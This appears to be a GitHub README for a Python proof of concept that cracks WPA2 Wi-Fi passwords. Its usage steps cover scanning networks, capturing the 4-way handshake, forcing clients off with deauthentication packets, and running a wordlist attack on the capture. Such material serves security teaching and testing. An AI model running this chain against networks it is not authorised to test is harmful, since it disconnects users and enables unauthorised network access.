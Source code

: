 # WPA2-Crack
This a POC to show how a WPA-2 network can be cracked by computing the message integrity check in python.

## Installation
  ```python
  pip3 install -r requirements.txt
  ```
  
## Usage
  We should first run wifi-scan.py to discover wifi network around us.
  The interface needs to be in monitor mode.
  ```python
  python3 wifi-scan.py --interface wlan0
  ```
  
  SSID, BSSID and channel should be displayed for every wifi network
  We are now ready to capture the 4-Way handshake for a choosen network
  ```python
  python3 wifi-capture-handshake.py --interface wlan0 --bssid xx:xx:xx:xx:xx:xx --channel 1
  ```
  The script is now waiting for an authentication, we can use the wifi-deauth.py script to disconnect network user
  The script will send deauthencation packets every 0.2 seconds to make an authentication happen
  example:
  ```python
  python3 wifi-deauth.py --interface wlan0 --bssid xx:xx:xx:xx:xx:xx
  ```
  
  Once we captured the wpa-handshake we are ready to start cracking the password
  ```python
  python3 wifi-crack.py --ssid name --wordlist wordlist.txt --pcap pcapfile.pcap
  ```
  We need to be sure to enter the good ssid, because no check is made so the script will never found the password
  
  If the password is in the wordlist, it will be found and displayed to screen.
